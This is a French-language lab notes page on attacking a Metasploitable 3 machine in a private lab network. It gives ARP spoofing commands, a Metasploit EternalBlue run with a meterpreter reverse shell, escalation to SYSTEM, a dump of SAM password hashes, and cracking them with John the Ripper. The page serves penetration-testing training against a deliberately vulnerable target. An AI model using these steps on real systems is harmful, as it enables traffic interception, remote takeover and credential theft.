 # MITM

Faire un __arp spoofing__ :

Configurer Linux pour que les paquets IP soient relayés :
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

Effecture l'attaque
```bash
sudo arpspoof -t 10.10.11.28 -r 10.10.11.31
```

# Metasploitable 3

## EternalBlue (MS17-010)

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > use exploit/windows/smb/ms17_010_eternalblue
[*] Using configured payload windows/x64/meterpreter/reverse_tcp

msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.11.31      yes       The target host(s), range CIDR identifier, or hosts file with syntax '
                                             file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.11.2       yes       The listen address (an interface may be specified)
   LPORT     5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) > run
[...]

meterpreter >
```

## Récupérer le contenu de la base SAM

```bash
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
anakin_skywalker:1011:aad3b435b51404eeaad3b435b51404ee:c706f83a7b17a0230e55cde2f3de94fa:::
artoo_detoo:1007:aad3b435b51404eeaad3b435b51404ee:fac6aada8b7afc418b3afea63b7577b4:::
[...]
```

## Casser les hashs

On copie le résultat de `hashdump` dans un fichier `sam.dump`.

On peut ensuite casser les hashs avec `john`.

```bash
john sam.dump --wordlist=/usr/share/wordlists/rockyou.txt --format=NT --rules=best64
```

Une fois cassés, on peut les revoirs avec l'option `--show` :

```bash
john sam.dump --format=NT --show 
```

